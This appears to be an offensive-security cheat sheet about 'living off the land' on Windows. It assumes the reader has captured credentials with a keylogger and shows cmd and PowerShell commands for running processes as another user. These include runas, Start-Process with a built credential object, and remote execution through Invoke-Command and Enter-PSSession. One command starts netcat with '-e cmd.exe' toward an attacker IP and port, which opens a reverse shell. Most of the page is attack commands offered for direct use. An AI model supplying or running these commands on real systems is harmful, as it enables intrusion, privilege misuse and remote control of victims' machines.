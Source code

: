 # Living off the Land

## 01 - Command Prompt

Now let's say you have activated a keylogger to monitor the user's keyboard activities and you have got the credentials. Now you want to use credentials as an Administrator or a different user account and it might ask you a password prompt to do so since it was configured without the autologin that was modified in the registry editor.

```
C:\> cmd /c <password> | runas [/profile] /user:<DOMAIN_NAME>\<username> cmd.exe
```

## 02 - Powershell

- Another method is using powershell to supply with the defined variables and execute with a powershell cmdlet `Start-Process`.

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
Start-Process -FilePath C:\path\to\shell.exe -NoNewWindow -Credential $credential -WorkingDirectory C:\Users\Public
```

- If you have `netcat` that you want to execute that might contain arguments.

```powershell
PS C:\> Start-Process -FilePath C:\Users\Public\nc.exe -NoNewWindow -Credential $credential -ArgumentList ("<attacker_IP>","<attacker_PORT>","-e","cmd.exe") -WorkingDirectory C:\Users\Public
```

- You can also execute it remotely.

```powershell
PS C:\> $password = ConvertTo-SecureString "<password>" -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential("<username>", $password)
$computer = "<IP>"
[System.Diagnostics.Process]::Start("<Commands>", $credential.Username, $credential.Password, $computer)
```

- Syntax using the `Start-Process`:

```
PS C:\> Start-Process <commands> -ArgumentList (<arg_1>,<arg_2>, <arg_n>) -Verb RunAs

PS C:\> Start-Process cmd.exe -ArgumentList ("/c", "echo", "yes") -Verb RunAs
```

- Using the `-NoNewWindow` flag that some programs may open it with a window pop up.

```
PS C:\> Start-Process cmd.exe -NoNewWindow -ArgumentList ("/c", "echo", "yes") -verb runas
```

- Or you can remotely authenticate a network shared workstation to interact even further when you need to

```
PS C:\> invoke-command -computer <IP> -credential $credential -scriptblock { <commands> }

PS C:\> Enter-PSSession -ComputerName <IP>
```